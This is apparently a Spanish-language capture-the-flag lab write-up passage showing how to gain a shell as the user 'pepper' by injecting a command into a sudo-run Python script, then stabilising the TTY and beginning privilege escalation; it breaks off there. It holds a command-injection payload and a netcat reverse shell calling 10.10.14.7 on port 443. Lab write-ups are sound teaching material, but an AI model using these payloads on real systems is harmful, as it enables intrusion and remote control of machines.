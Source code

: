 Si nos ponemos en escucha por el puerto 443 con 
```bash
 nc -nlvp 443 
```
 y que le ponemos

```bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p

> $(nc -e /bin/bash 10.10.14.7 443)
```

No funcciona. Si miramos el codigo fuente de script en python, vemos que hay caracteres que son considerados como invalidos.
Uno de ellos es el 
```bash
 - 
```


Decidimos crearnos un fichero 
```bash
 reverse.sh 
```


```bash
cd /tmp
nano reverse.sh`


#!/bin/bash

nc -e /bin/bash 10.10.14.7 443
```

Le damos derechos de ejecucion y lanzamos el script una vez mas.

```bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p

> $(bash /tmp/reverse.sh)
```

Ya hemos podido entablar la conneccion como el usuario pepper y podemos ver la flag.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
cd /home/pepper
ls
cd /Web
cd /Logs
cat 10.10.14.7.txt
```
